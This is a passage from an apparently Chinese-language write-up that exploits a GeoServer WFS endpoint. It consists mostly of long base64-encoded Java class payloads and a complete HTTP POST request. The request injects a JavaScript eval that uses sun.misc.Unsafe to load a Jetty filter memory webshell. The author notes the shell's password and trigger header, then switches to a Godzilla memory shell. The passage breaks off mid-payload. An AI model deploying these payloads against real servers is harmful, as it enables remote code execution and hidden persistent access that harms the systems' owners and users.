hwAQAIgAHACJACQAigApAIsAMwCMAEkAjQBLAIgAUQCRAB0AAABIAAcAMwAYAQUAHwAGACQAJwEGAB8ABQATAD4AWwBJAAQAAABTACMAJAAAAAAAUwDLAMwAAQAIAEsBBwAfAAIAEABDAQgAHwADACsAAAAQAAP+ABMHAAQHAAQBN/oABQAOAAAABAABABsAAgD3AOYAAgAHAAABZQADAAsAAACLKxMBCbgAfE0sEwEKuAB8TgM2BBUELbgAsqIAZy0VBLgAtjoFGQXGAFQZBRMBDLgAfDoGGQbGAEUZBrYAdrYAfxMBDrYAUZkANBkGEwEUuAC/OgcZBxMBFrgAvzoIGQgTARi4AL86CRkJEwEauAC/OgoZChMBHLgAfLCEBAGn/5a7ABtZEwEetwEfvwAAAAMAHAAAADoADgAAAJUACACWABAAlwAcAJgAJACZACkAmgAzAJsASQCcAFMAnQBdAJ4AZwCfAHEAoAB6AJcAgACkAB0AAABwAAsAUwAnAQ8AHwAHAF0AHQEQAB8ACABnABMBEQAfAAkAcQAJARIAHwAKADMARwEFAB8ABgAkAFYBBgAfAAUAEwBtAFsASQAEAAAAiwAjACQAAAAAAIsAywDMAAEACACDAQcAHwACABAAewEIAB8AAwArAAAAEgAD/gATBwAEBwAEAfsAZvoABQAOAAAABAABABsAAgA+AD8AAQAHAAABhQAGAAgAAACOAU24ASy2AS5OLccACyu2AHa2AIdOLSq2AHC2AI+2ATBNpwBrOgQqtgEyuAE2uAE6OgUSixMBOwa9AGtZAxMBPFNZBLIApFNZBbIApFO2AUA6BhkGBLYBRhkGLQa9AARZAxkFU1kEA7gAqlNZBRkFvrgAqlO2AUrAAGs6BxkHtgEwTacACjoFGQW2AU0ssAACABUAIQAkABsAJgCCAIUAGwADABwAAABCABAAAACqAAIAqwAJAKwADQCtABUAsAAhALsAJACxACYAswAyALQAUgC1AFgAtgB8ALcAggC6AIUAuACHALkAjAC8AB0AAABcAAkAMgBQASABIQAFAFIAMAEiASMABgB8AAYBJABfAAcAhwAFASUBJgAFACYAZgEnASYABAAAAI4AIwAkAAAAAACOACAAHwABAAIAjAAeAB8AAgAJAIUA/QEoAAMAKwAAACsABP0AFQcABAcAi04HABv/AGAABQcAAgcABAcABAcAiwcAGwABBwAb+gAGAAkAgACBAAIABwAAAPMAAgAGAAAAPSoSrLgAfE0DPh0suACyogAnLB24ALY6BBkEEre4AHzAABI6BRkFK7YAUZkABQSshAMBp//XpwAGTQOsA6wAAgAAAC4AOAAbAC8ANQA4ABsAAwAcAAAALgALAAAAwQAHAMIAEQDDABgAxAAkAMUALQDGAC8AwgA1AMsAOADJADkAygA7AMwAHQAAAEgABwAYABcAHgAfAAQAJAALAGgASwAFAAkALABbAEkAAwAHAC4AYwAfAAIAOQACAScBJgACAAAAPQBdAB8AAAAAAD0BTgBLAAEAKwAAABIABf0ACQcABAEl+QAFQgcAGwIADgAAAAQAAQAbAAgBMwE0AAIABwAAAQUABgAEAAAAbxMBVbgBWEwrEwFaBL0Aa1kDEhJTtgFdK7YBMAS9AARZAypTtgFKwAE8wAE8sE0TAV+4AVhMKxMBYQO9AGu2AV0BA70ABLYBSk4ttgB2EwFjBL0Aa1kDEhJTtgFdLQS9AARZAypTtgFKwAE8wAE8sAABAAAALAAtABsABAAcAAAAGgAGAAAA0wAHANQALQDVAC4A1gA1ANcASQDYAB0AAAA0AAUABwAmAU8AXwABAEkAJgFQAB8AAwAuAEEBUQEmAAIAAABvAVIASwAAADUAOgFPAF8AAQAlAAAAFgACAAcAJgFPAVMAAQA1ADoBTwFTAAEAKwAAAAYAAW0HABsADgAAAAoABADBAMUAwwDHAAkBNwE4AAIABwAAANQABAAGAAAAPrsBbVm3AXJMuwFvWSq3AXVNuwFxWSy3AXhOEQEAvAg6BC0ZBLYBfFk2BZsADysZBAMVBbYBgKf/6yu2AYSwAAAAAwAcAAAAHgAHAAAA3QAIAN4AEQDfABoA4AAhAOIALQDjADkA5QAdAAAAPgAGAAAAPgFkASEAAAAIADYBZQFmAAEAEQAtAWcBaAACABoAJAFpAWoAAwAhAB0BawEhAAQAKgAUAGYASQAFACsAAAAcAAL/ACEABQcBPAcBbQcBbwcBcQcBPAAA/AAXAQAOAAAABAABABAACAB5AHoAAgAHAAAAVwACAAMAAAARKiu4AYxNLAS2AY8sKrYBkbAAAAACABwAAAAOAAMAAADpAAYA6gALAOsAHQAAACAAAwAAABEBhQAfAAAAAAARAYYASwABAAYACwGHAYgAAgAOAAAABAABABsACAGJAYoAAgAHAAAAxwADAAQAAAAoKrYAdk0sxgAZLCu2AZhOLQS2AY8tsE4stgGbTaf/6bsBk1krtwGcvwABAAkAFQAWAZMABAAcAAAAJgAJAAAA7wAFAPAACQDyAA8A8wAUAPQAFgD1ABcA9gAcAPcAHwD5AB0AAAA0AAUADwAHAYcBiAADABcABQEnAZQAAwAAACgBhQAfAAAAAAAoAYYASwABAAUAIwEkAF8AAgAlAAAADAABAAUAIwEkAVMAAgArAAAADQAD/AAFBwBrUAcBkwgADgAAAAQAAQGTACgAmgB6AAIABwAAAEIABAACAAAADiorA70AawO9AAS4AJ2wAAAAAgAcAAAABgABAAAA/QAdAAAAFgACAAAADgGdAB8AAAAAAA4BngBLAAEADgAAAAgAAwDFAMcAwwApAJoAmwACAAcAAAIXAAMACQAAAMoqwQBrmQAKKsAAa6cAByq2AHY6BAE6BRkEOgYZBccAZBkGxgBfLMcAQxkGtgGsOgcDNggVCBkHvqIALhkHFQgytgGtK7YBsJkAGRkHFQgytgG0vpoADRkHFQgyOgWnAAmECAGn/9CnAAwZBisstgFAOgWn/6k6BxkGtgGbOgan/50ZBccADLsAxVkrtwG1vxkFBLYBRirBAGuZABoZBQEttgFKsDoHuwG3WRkHtgG6twG7vxkFKi22AUqwOge7AbdZGQe2Abq3Abu/AAMAJQByAHUAxQCcAKMApADHALMAugC7AMcAAwAcAAAAbgAbAAABAQAUAQIAFwEEABsBBQAlAQcAKQEJADABCgA7AQsAVgEMAF0BDQBgAQoAZgEQAGkBEQByARUAdQETAHcBFAB+ARUAgQEXAIYBGACPARoAlQEbAJwBHQCkAR4ApgEfALMBIwC7ASQAvQElAB0AAAB6AAwAMwAzAFsASQAIADAANgGfAaAABwB3AAcBJwGhAAcApgANAScBogAHAL0ADQEnAaIABwAAAMoBhQAfAAAAAADKAZ4ASwABAAAAygGjAaQAAgAAAMoBpQBlAAMAFAC2ASQAXwAEABcAswGmASMABQAbAK8BpwBfAAYAKwAAAC8ADg5DBwBr/gAIBwBrBwFCBwBr/QAXBwGoASz5AAUCCEIHAMULDVQHAMcORwcAxwAOAAAACAADAMUAwwDHAAgBvAAZAAEABwAAACUAAgAAAAAACbsAAlm3Ab1XsQAAAAEAHAAAAAoAAgAAACAACAAhAAA=";
var bt;
try {
    bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
} catch (e) {
    bt = java.util.Base64.getDecoder().decode(str);
}
var theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
theUnsafe.setAccessible(true);
unsafe = theUnsafe.get(null);
unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), bt, null).newInstance();
')</wfs:valueReference>
</wfs:GetPropertyValue>
```



```
密码: 1
请求路径: /*
请求头: User-Agent: Dzaqguzz
脚本类型: JSP
```

但是发现执行命令，不太方便，不知道为什么


所以换一个内存马吧，比如说哥斯拉

```
POST /geoserver/wfs HTTP/1.1
Host: 172.23.23.55:80
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/xml
Content-Length: 20358

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'
var str="yv66vgAAADEBvgEAD2phdmEvbGFuZy90ZXN0MgcAAQEAEGphdmEvbGFuZy9PYmplY3QHAAMBAA1nZXRVcmxQYXR0ZXJuAQAUKClMamF2YS9sYW5nL1N0cmluZzsBAARDb2RlAQACLyoIAAgBAAxnZXRDbGFzc05hbWUBACpvcmcuYXBhY2hlLmxvZ2dpbmcuTG9nNGpDb25maWdMbWxoZmxGaWx0ZXIIAAsBAA9nZXRCYXNlNjRTdHJpbmcBAApFeGNlcHRpb25zAQATamF2YS9pby9JT0V4Y2VwdGlvbgcADwEAEGphdmEvbGFuZy9TdHJpbmcHABEBEHBINHNJQUFBQUFBQUEvNTFZQzN4YlZSbi9ueVROVGRQczFiQkgxcjBZYkV1VHR1bldibXpkQm11N3dlcWFicXg3MkEyUTIvUTJ6WlltYVhMVHJmaFdGTVFuaWc4VXAwNXhQaERIQnVuS0JPWUxGRVJFVUJBUjMrOEhvcUtpYVAyZmUyL1N0R20zL2Z5MXZlZmNjNzdILy92TzkzM251MzM0di9mZUQyQ2wyQ3dRU0thaklUV2xSdnEwVUR3WmpjWVMwVkI3TXRwNG9EV1o2STFGMi92amZiM3h5Mk54WFVzckVBS3pENmlEYWlpdWtxdzFybVl5N1VtMVIyN1pCUzZRVzRkREdTMDlHTmYwVUo2cFRNQzVJWmFJNlpjSzJQM1Zld1FjcmNrZVRXQkdleXloZFdUN3U3WDBMclU3enBYSzltUkVqZTlSMHpINWJpMDY5TDVZUnFDbS9meVJydmRBZ2NzTkI2WUx6UGUzVDRwNXZZUWlyaE9ZTzhXK0ZESlRDdkdTWm95a1UwOVRkVXMyRmpjTW4rM0dIS25Ha1NLbk5HRWlKZVhNZzY4Y05zeW5KOVJVU2t2MENOVDZTd21yUzVZc0xSU3hBQXVsb2tYMDRVRnR5SU1scHNnTEJWeDYwaVRtQ2ZoTFJaRDNJbHdzZVplUnQ3OW50Y0R5ODlKTnhoWHd1Nm1rV3M0TWRVRjY3RW9HZ1g5L1MvVkVyNjBYc0VXNitkamZJbERSby9YeWRJME5lby8wYlcybEhCNnN4Q3JwNFFiS1BTeWdrRzVmdGVUM2pwRnVPUnpSVW5vc21WQndDY2tpVk45dVJsb2tQWlRTazZIV1dLcVBQdUlSREtycHh2ejJCR1p1Q3lJUi9memJwNkRlVWpGQmlJSm1nV21kdWhvNUdGWlRWZ0RhbTdkMHVzQmNxWWhxZWxzaW82dUpDSmVycC9UaVJHUWVYSTRyM0dqQlZvSEY0d2d5S1MwUzZ0UWlhVTNmcGcxMThrM0JLd1JtVGhTc29KMEhUZlV0UTdwR014eCtlc21ERG14M0k0d2Rwb2NuZ2JOSHh2Qk9ON2FoazB3eUNTVnBtMG1aMFNMWmRFd2ZDbEcxUWJvYmV5VEt2VHlJbnVUbHNZUWFaOERLbzVhNnVyQlBidTRYV0RpQlBheGxNbXBVMnh5TGFobWRmcmJUR2o3RG0xZTc4Q3FCcXJOUUsxQUZWazRkamxQb2tBNk51TkVOSnBJenJpV2llcDlSVzlvODZFVlV1b1R2em15cVI5VTFNNm9ZZlRUd0FBNUtycmhWcTBMOXF0NFhhb2xGMnhLNkZwV25ueUJiajZIRGc1UjBiamNHcEEvYTZBVERseGsza3RCbEJyUk5rV3FEa3VJUWcwVlA3bWF1cDF2VmpPYkJrRXpCTUZodFBOMWNXTk80SlJFeGl1Q2NDYWxrU1NKcWt5STl2cVJzN3o2Z1JhU1RuYVlZZ1ZtVDVLRk1oRFhNeEc2R1N0bWdHczlxVmt6VlpmVll2SzdGWUhYaExhekJFNWdWM0VEVnZjbDBoOXBQcG1YbnFCVDVOSDRiYm5MalJyeGR3TTBndFpDNzhFNkMzMTlDcnVEZEF1V2tDMnQ2WDVKSHVHa1NMYVZzeFhyVFdtK2NmZ2laRWdqZ1pyeFhBbmdmMDNwL3Fic1V2RjlnM2xUc0NqNUlmOFlTZzhtRE5IbWR2NVIvRXBIVnBVc2UzSW9QdS9FaGZHUmNCcHU3Q2o1cVpyQlZFcjMreWZ6NE1YemNqU1A0aE1CMHpYRGlMcXUydS9CSnhrb21tNmpyajJVaWRTM05uVnZ5TVVRLzM4NXdTMmlIeG1yVCtJdWdnTzhZUGlPOTlGbWFhNHAzNGZNOHNrS1JKQzZYekh4NWh3cnM5N2VQdjlFN3pYR25OcENWV1RqVmJpWkZTZHJFYlZOcWE1OGFTeGczNzVJeGZDWnVQYVpLREVYbC92aDRxbmhjaTZyeDVraUV0YUNJNmdRcmVpLy9hSGJ4MGUwMHp6ZzJxRzFuRm80WExmTkhUYWUzWjVuSmkwMmVXRElrYTJ0ek9xME9jVDJWMWVsNFRlMlhtWmloUW5JUnpRU2IrblE5RmRyS1I2ZEpJVk9QTlljMWJYcG1uSzhFRnAzZGw4ekV6SGovNVpGTjdXRG1ka1M2a3lYMkxMNG0vblFleElxcDhVOUE0MG9YWUV5TWdsS21BcDRGWjdOUndZTzhPODVxa29KdkNQaW10RVhCd3l4SjUyV0NnbSt4enprLzRBcSt6Zk01KzhrcStJNEZmc3BJVWZCZFMrVzVBMURCazh5N1BrMzJtYkxTZXZCOXM4RjZ5cXlNVzQwZEQzNEFmd1VleFRQTWI1TjRqeXptSGp4clV2K0lCeFZKSm5UNmhxbGJOYTdSN1ZQVG5kSVhyQWZycS9kNThHUDhSTjVBUHpWTGRHYytwSmY2cTg4VjFCNzhITCtRTUg3SjI0dThPOVEwSWVzUzM2OU5mTDhwWEd1YnRmeTFOc25GSWR1STMrSDNzcVg4Z3dlcnNVYk8vc1FBVGFsRGNmYmNMdnpaMU5Dc2s2TTdLeS92Yy9XcWhkcjJGL3kxQW8vamI4eTlmSlUxKzNoR1ZHbXRMYlQ0ZjhjL1pFbjhwNFRpOWFBV2RYTDJiK0xJak1PeFloSWNrOXdLYkJMK2cvOUtJS04wZENydnFZeExDT21vVVRlZU1MNUppc0lreThyWHI0MkZodUFIMDd4aWJidjYwc2xEc2hVMSt6bWh1SVZUdUdRTkg4aXE4WXhzUmlaQnNzOGozS0tDdDRud21ERzFsNDJVOU1iY3ZEY1l5RHRvaDdXeDNpT21peGtWZUV6TUpIMG0yNTJ4UGlybStOc203WFZFcGZBeW9zUUYrVzU5dkR4RnpHR0JPaVRuRXhDT05hZGludkM1eFZ3eFgxNTZ5NHllcVpCYUhyRlFObUJQaUVVZXZBYXY1YW1JSmRRcCs2dXdXRnBvR3Y3ZjIwbTY4azV4Y1FVZUVjdEtzdDhpTGpxVEZVVkd0bTB2MnFpV1ZUaXVYbmVkYkpvMXEyT1QvUmUvcyt4MFllbXRiYVpJMmlWQ0RES1RwU1hiMnl0WFZwckpXYUJva08ybzhlSVNsTGQ0b3NsV2JUUytmNDFMMWROYnRNSjZmRFo2QXpBUkpvZFlSVFpFNHRZbnVsanBFaHZZd0dpUmh2cnVCbTF0UTRONlNVT2p0c29sdU9uZVRWRzF6VkV0b2J2RUpwcStaK0NBVG5BdHVKQlo0d0R4b2d6bDhuTVJnRXQrK0JyakVtTVVzc29aNDdQR1dNRVp2OVA1TE9kYk15VUlqdDdBTUdZRXZLTDVIanpOb2ZVZVBIY1hsMjF3OHltVEV4UlhTWVVWbkhsTUZvN1RETUg4WXJmRXhVa3BhZXNEd1dGY01GN2VhY3pwR3NiY0U2aktZZkVKTE9VemgrV25FRGlKbWpGZDAySG44MkpLWDRZUWxodjY1cGd5TFgxeU5vdFk2RFZaT1N6Tkcra0lTVlVlQ05xRDl3K2o4WGhCcE5PQVcxMGtxcndncXB4SzZnMVJySXlXcUtmSTRlQVlyTnh5Q20wZHRRdHVoZUk0QmtmWmFXenJNb0JmV2JsbEdMdHllR1Z0TUllcmpuZUk0NFlLZnJsakxmRzdEVVZsZklZb3FoNUwrY1h0eHlwQ2FEQkFOSExQeWRWMWFDSjFOU0d0eHdiRDdtQUJXSkFXMVJ0U2c3Z1VsNUdtbFhOU2pXSUdIQXBzQ2pZSmhkK0c4akhLcmVJMVRsckVLT2JDYmkxS3FyVkdpUGd0STJtUG9iRmV0RmRlZXdwYXVDWkF1K3g4eEhMb1A0MWtsNk1taC9Rd3NqTm41bkE0aDFlM2t5VWNsSmJhRUtEbjg1WXU0dm1EYnpaYTQ2SWxzNGt5UU15MXRLQ095Q3VNMkxGemJ5bFhyN2JPY3FNUmpEWlNYTU9aTUt6endqWktOaUlPODlmRVRMQXNSQ1FrYU5GbVJEcHdtS0RmZWdydkNOZFV2a3Vjd1h0eXVLV0c0d2R5dUsyak5vZWpsWjl5M0ljYnUreVZtenE1VmN1WEkxMzJBT2UzblVHWWRxenJxUHkwd1o3RDU1b2NQb2RrdWFPWXhlY280U2xyY3RCNEdkNGJzWW5BbWpFQXZlQ0VWVHc0MEFnYlA1SmR1QUpWMkVxNkhhUnNJK1UycnJUVG9qQjV0cE9yQTRPNDBuRE1WanF2aW81NUhWNXZ1R2d0M29BM1VrcVlLU0RYSE9Tc3RkYWFHYU52c2dMbE1ONU1KMG9IRHVMNmdnT3JaWGhzTW80ODc4QlJ4cHpEZXBmK2xHc3ZrZndMTW1RNGNnVjM0b3VtZzIxMzBMMkVKUllFeitEUkprZk5HVHpXVk9aekJPN0cweVA0b1EwUDR2bWlOMDZleStGbnQrSVpuMk1FdnhKb2NnWjhEaWI0Q0g1clF3NS9iRklDUHNXZXcvTk5pczlaK2NJSVhyVGhJU3lWODlPd2RUSFlqdWJ3MGpEKzVWTnllSG1FeFp0eGVaUFA0UlUybnpJaTdIYWN4aE5kdzhMUjVDcnduOEdOOHRUS2oyRkdrL3UwY0hiNTNNT2kvQUZmdWMrVkU5UDJjblFZWTltSW1DVndBalYyQnJDWW5STlZ2dktjV0pEZkNFanl4VHo1NTArSkMrVm1nVjZTWDhTVlk2aW9EZGFNaU9VUzFMUW1aLzdsTHFLOEdVZHhPMmZtZUJMeUdwOVZDSVlEbU0vbkhnYnJYc2ovNFlTd2ozdjdlZGhYOGRpdjVzODFET3ByMlFHcGxOQkRHVkZLMGFpbWx6TDdNSUtEK0RKcjZaUG94ek5JNEFVa2hSMXA0VVJHVE1jaGFzb0tMd1pGRllhTUlMcWVOZU1vZGQvTmdDbW5GRGZ1b2ZmZGxKM0dNRTR4ck83Q1RtdDNMUjZoL0h1SmJTdWRlNXBCcEZDV2l4d2J1TWFUejFjZ3pyNkUrMlFGNHV4K1BDRHpsck16UkdhSFU4ekJWL0JWUnBCSHpNVFg4SFhHVGF0Ui8xMmpOTTFsbEoySEZIeFR3U01LSGxYd21JTEhHWVhBS0N0UStWVGJDaHMxQnVqM1hrYUZnaU9qZEphemxKUmhxclF3aXN1TkdIYXlSZkdMQUhHeXlUV2pHQzlhWldMQUsrcU5OUGVLVlZaMmgyVjJ5N1EzOHp0bzV2Y20vaDRQR3lXbG85WXJHdTMzeVNDN1JYQThRZ0tyUkhqRm1tSXArUnBSTE1NbzJEVkZ4WEcrZENycmw4SnNydVVCMURHWEc1bk5iY3hrZVhTWGNsL0JjaEUwTXJ3Ukc0MlpuZnQrVVdQa2Z4MWFSUzBQUjViTmdjTDFNQ0RxQ2xuUCs2MWZwblp4U3U4V2wxak9XRzFVQ1o3ZDJCMXJYb2czRkYySW9pQllpTFZpM1ZoOUVMd3ZSRk9oWFFnYXRKTUl1Nm1vTWNnTGM0bjFCY1l0aGhwV0tLL1llQkpWWG5IWlNTdzlWMGNnQ3QySEJ3c1pONHVBL3dGQkJ1ZGZSaGtBQUE9PQgAEwEABjxpbml0PgEAFShMamF2YS9sYW5nL1N0cmluZzspVgwAFQAWCgASABcBAAMoKVYBABNqYXZhL2xhbmcvRXhjZXB0aW9uBwAaAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAGZmlsdGVyAQASTGphdmEvbGFuZy9PYmplY3Q7AQAHY29udGV4dAEACGNvbnRleHRzAQAQTGphdmEvdXRpbC9MaXN0OwEABHRoaXMBABFMamF2YS9sYW5nL3Rlc3QyOwEAFkxvY2FsVmFyaWFibGVUeXBlVGFibGUBACRMamF2YS91dGlsL0xpc3Q8TGphdmEvbGFuZy9PYmplY3Q7PjsBAA5qYXZhL3V0aWwvTGlzdAcAJwEAEmphdmEvdXRpbC9JdGVyYXRvcgcAKQEADVN0YWNrTWFwVGFibGUMABUAGQoABAAsAQAKZ2V0Q29udGV4dAEAEigpTGphdmEvdXRpbC9MaXN0OwwALgAvCgACADABAAhpdGVyYXRvcgEAFigpTGphdmEvdXRpbC9JdGVyYXRvcjsMADIAMwsAKAA0AQAHaGFzTmV4dAEAAygpWgwANgA3CwAqADgBAARuZXh0AQAUKClMamF2YS9sYW5nL09iamVjdDsMADoAOwsAKgA8AQAJZ2V0RmlsdGVyAQAmKExqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsMAD4APwoAAgBAAQAJYWRkRmlsdGVyAQAnKExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvT2JqZWN0OylWDABCAEMKAAIARAEADWdldEZpbHRlck5hbWUBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwEADGxhc3REb3RJbmRleAEAAUkBAAljbGFzc05hbWUBABJMamF2YS9sYW5nL1N0cmluZzsBAAEuCABMAQAIY29udGFpbnMBABsoTGphdmEvbGFuZy9DaGFyU2VxdWVuY2U7KVoMAE4ATwoAEgBQAQALbGFzdEluZGV4T2YBABUoTGphdmEvbGFuZy9TdHJpbmc7KUkMAFIAUwoAEgBUAQAJc3Vic3RyaW5nAQAVKEkpTGphdmEvbGFuZy9TdHJpbmc7DABWAFcKABIAWAEAC19maWx0ZXJOYW1lAQABaQEAAWoBAA5zZXJ2bGV0SGFuZGxlcgEAEWZpbHRlckhvbGRlckNsYXNzAQARTGphdmEvbGFuZy9DbGFzczsBAAtjb25zdHJ1Y3RvcgEAH0xqYXZhL2xhbmcvcmVmbGVjdC9Db25zdHJ1Y3RvcjsBAAxmaWx0ZXJIb2xkZXIBAApmaWx0ZXJNYXBzAQANdG1wRmlsdGVyTWFwcwEAE1tMamF2YS9sYW5nL09iamVjdDsBAAFuAQALbWFnaWNGaWx0ZXIBAApmaWx0ZXJOYW1lAQALZmlsdGVyQ2xhc3MBAA9qYXZhL2xhbmcvQ2xhc3MHAGoBAB1qYXZhL2xhbmcvcmVmbGVjdC9Db25zdHJ1Y3RvcgcAbAcAZQwACgAGCgACAG8MAEYARwoAAgBxAQAIZ2V0Q2xhc3MBABMoKUxqYXZhL2xhbmcvQ2xhc3M7DABzAHQKAAQAdQEAD19zZXJ2bGV0SGFuZGxlcggAdwEABWdldEZWAQA4KExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL09iamVjdDsMAHkAegoAAgB7AQAHZ2V0TmFtZQwAfQAGCgBrAH4BAAppc0luamVjdGVkAQAnKExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nOylaDACAAIEKAAIAggEADmdldENsYXNzTG9hZGVyAQAZKClMamF2YS9sYW5nL0NsYXNzTG9hZGVyOwwAhACFCgBrAIYBACZvcmcuZWNsaXBzZS5qZXR0eS5zZXJ2bGV0LkZpbHRlckhvbGRlcggAiAEAFWphdmEvbGFuZy9DbGFzc0xvYWRlcgcAigEACWxvYWRDbGFzcwEAJShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9DbGFzczsMAIwAjQoAiwCOAQAOZ2V0Q29uc3RydWN0b3IBADMoW0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9Db25zdHJ1Y3RvcjsMAJAAkQoAawCSAQALbmV3SW5zdGFuY2UBACcoW0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsMAJQAlQoAbQCWAQAHc2V0TmFtZQgAmAEADGludm9rZU1ldGhvZAEAXShMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZztbTGphdmEvbGFuZy9DbGFzcztbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwwAmgCbCgACAJwBABRhZGRGaWx0ZXJXaXRoTWFwcGluZwgAngEAEWphdmEvbGFuZy9JbnRlZ2VyBwCgAQAEVFlQRQwAogBfCQChAKMMAAUABgoAAgClAQAHdmFsdWVPZgEAFihJKUxqYXZhL2xhbmcvSW50ZWdlcjsMAKcAqAoAoQCpAQAPX2ZpbHRlck1hcHBpbmdzCACrAQAXamF2YS9sYW5nL3JlZmxlY3QvQXJyYXkHAK0BAAlnZXRMZW5ndGgBABUoTGphdmEvbGFuZy9PYmplY3Q7KUkMAK8AsAoArgCxAQADZ2V0AQAnKExqYXZhL2xhbmcvT2JqZWN0O0kpTGphdmEvbGFuZy9PYmplY3Q7DACzALQKAK4AtQgAWgEAA3NldAEAKChMamF2YS9sYW5nL09iamVjdDtJTGphdmEvbGFuZy9PYmplY3Q7KVYMALgAuQoArgC6AQAVaW52YWxpZGF0ZUNoYWluc0NhY2hlCAC8DACaAHoKAAIAvgEAIGphdmEvbGFuZy9DbGFzc05vdEZvdW5kRXhjZXB0aW9uBwDAAQAramF2YS9sYW5nL3JlZmxlY3QvSW52b2NhdGlvblRhcmdldEV4Y2VwdGlvbgcAwgEAH2phdmEvbGFuZy9Ob1N1Y2hNZXRob2RFeGNlcHRpb24HAMQBACBqYXZhL2xhbmcvSWxsZWdhbEFjY2Vzc0V4Y2VwdGlvbgcAxgEAJGphdmEvaW8vVW5zdXBwb3J0ZWRFbmNvZGluZ0V4Y2VwdGlvbgcAyAEAEmNvbnRleHRDbGFzc0xvYWRlcgEABnRocmVhZAEAEkxqYXZhL2xhbmcvVGhyZWFkOwEAB3RocmVhZHMBABNbTGphdmEvbGFuZy9UaHJlYWQ7BwDOAQAQamF2YS9sYW5nL1RocmVhZAcA0AEAE2phdmEvdXRpbC9BcnJheUxpc3QHANIKANMALAEAEWdldEFsbFN0YWNrVHJhY2VzAQARKClMamF2YS91dGlsL01hcDsMANUA1goA0QDXAQANamF2YS91dGlsL01hcAcA2QEABmtleVNldAEAESgpTGphdmEvdXRpbC9TZXQ7DADbANwLANoA3QEADWphdmEvdXRpbC9TZXQHAN8BAAd0b0FycmF5AQAoKFtMamF2YS9sYW5nL09iamVjdDspW0xqYXZhL2xhbmcvT2JqZWN0OwwA4QDiCwDgAOMBABVnZXRDb250ZXh0Q2xhc3NMb2FkZXIBACYoTGphdmEvbGFuZy9UaHJlYWQ7KUxqYXZhL2xhbmcvT2JqZWN0OwwA5QDmCgACAOcBABNpc1dlYkFwcENsYXNzTG9hZGVyAQAVKExqYXZhL2xhbmcvT2JqZWN0OylaDADpAOoKAAIA6wEAH2dldENvbnRleHRGcm9tV2ViQXBwQ2xhc3NMb2FkZXIMAO0APwoAAgDuAQADYWRkDADwAOoLACgA8QEAEGlzSHR0cENvbm5lY3Rpb24BABUoTGphdmEvbGFuZy9UaHJlYWQ7KVoMAPMA9AoAAgD1AQAcZ2V0Q29udGV4dEZyb21IdHRwQ29ubmVjdGlvbgwA9wDmCgACAPgBAAlTaWduYXR1cmUBACYoKUxqYXZhL3V0aWwvTGlzdDxMamF2YS9sYW5nL09iamVjdDs+OwgA5QEAC2NsYXNzTG9hZGVyAQARV2ViQXBwQ2xhc3NMb2FkZXIIAP4BAAdoYW5kbGVyAQAIX2NvbnRleHQIAQEBAA9fY29udGV4dEhhbmRsZXIIAQMBAA5odHRwQ29ubmVjdGlvbgEABWVudHJ5AQAMdGhyZWFkTG9jYWxzAQAFdGFibGUIAQcIAQgBAAV2YWx1ZQgBCwEADkh0d